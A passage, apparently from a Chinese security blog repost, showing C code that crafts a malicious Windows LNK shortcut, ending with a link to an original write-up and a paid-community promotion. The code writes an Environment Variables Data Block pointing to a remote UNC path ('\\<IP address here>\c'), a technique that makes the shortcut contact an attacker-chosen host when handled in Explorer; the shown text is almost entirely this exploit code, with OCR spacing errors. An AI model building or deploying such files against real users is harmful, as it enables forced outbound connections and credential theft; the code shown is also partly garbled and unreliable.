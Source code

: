 ```
ntf("Memory allocation failed\n");        CloseHandle(hFile);        return1;    }    MultiByteToWideChar(CP_ACP, 0, cmdLineBuffer, -1, wideCmd, wideCmdBufSize);    if (!WriteFile(hFile, wideCmd, cmdArgLen * sizeof(WCHAR), &bytesWritten, NULL)) {        printf("Failed to write cmd: %lu\n", GetLastError());        free(wideCmd);        CloseHandle(hFile);        return1;    }    free(wideCmd);    constchar* iconPath = "path\\to\\your\\icon";    WORD iconLen = (WORD)strlen(iconPath);    if (!WriteFile(hFile, &iconLen, sizeof(WORD), &bytesWritten, NULL)) {        printf("Failed to write icon length: %lu\n", GetLastError());        CloseHandle(hFile);        return1;    }    int wideIconBufSize = MultiByteToWideChar(CP_ACP, 0, iconPath, -1, NULL, 0);    WCHAR* wideIcon = (WCHAR*)malloc(wideIconBufSize * sizeof(WCHAR));    if (!wideIcon) {        printf("Memory allocation failed\n");        CloseHandle(hFile);        return1;    }    MultiByteToWideChar(CP_ACP, 0, iconPath, -1, wideIcon, wideIconBufSize);    if (!WriteFile(hFile, wideIcon, iconLen * sizeof(WCHAR), &bytesWritten, NULL)) {        printf("Failed to write icon path: %lu\n", GetLastError());        free(wideIcon);        CloseHandle(hFile);        return1;    }    free(wideIcon);    constchar* envUNC = "\\\\<IP address here>\\c";    DWORD envBlockSize = 0x00000314;    DWORD envSignature = ENVIRONMENTAL_VARIABLES_DATABLOCK_SIGNATURE;    printf("Creating Environment Variables Data Block:\n");    printf("  Using fixed block size: 0x%08X (%lu bytes)\n", envBlockSize, envBlockSize);    if (!WriteFile(hFile, &envBlockSize, sizeof(DWORD), &bytesWritten, NULL)) {        printf("Failed to write env block size: %lu\n", GetLastError());        CloseHandle(hFile);        return1;    }    printf("  Write block size: %lu bytes written\n", bytesWritten);    if (!WriteFile(hFile, &envSignature, sizeof(DWORD), &bytesWritten, NULL)) {        printf("Failed to write env block signature: %lu\n", GetLastError());        CloseHandle(hFile);        return1;    }    printf("  Wrote block signature: %lu bytes written\n", bytesWritten);    char ansiBuffer[260] = { 0 };    strncpy(ansiBuffer, envUNC, 259);    if (!WriteFile(hFile, ansiBuffer, 260, &bytesWritten, NULL)) {        printf("Failed to write TargetAnsi: %lu\n", GetLastError());        CloseHandle(hFile);        return1;    }    printf("  Write TargetAnsi: %lu bytes written (fixed 260 bytes)\n", bytesWritten);    WCHAR unicodeBuffer[260] = { 0 };    if (MultiByteToWideChar(CP_ACP, 0, envUNC, -1, unicodeBuffer, 260) == 0) {        printf("Failed to convert to Unicode: %lu\n", GetLastError());        CloseHandle(hFile);        return1;    }    if (!WriteFile(hFile, unicodeBuffer, 520, &bytesWritten, NULL)) {        printf("Failed to write TargetUnicode: %lu\n", GetLastError());        CloseHandle(hFile);        return1;    }    printf("  Write TargetUnicode: %lu bytes written (fixed 520 bytes)\n", bytesWritten);    CloseHandle(hFile);    printf("LNK file created successfully: %s\n", lnkFilePath);    printf("Command line buffer size: %d bytes\n", (int)strlen(cmdLineBuffer));    return0;}
```  
# 视频演示  
  
  
原文：https://zeifan.my/Right-Click-LNK/  
  
- END -  
  
  
**加入星球，随时交流：**  
  
**********（会员统一定价）：128元/年（0.35元/天）******  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/hZj512NN8jnMJtHJnShkTnh3vR3fmaqicPicANic6OEsobrpRjx5vG6mMTib1icuPmuG74h2bxC4eP6nMMzbs5QaSlw/640?wx_fmt=jpeg&from=appmsg "")  
  
**感谢阅读，如果觉得还不错的话，欢迎分享给更多喜爱的朋友～**  
  
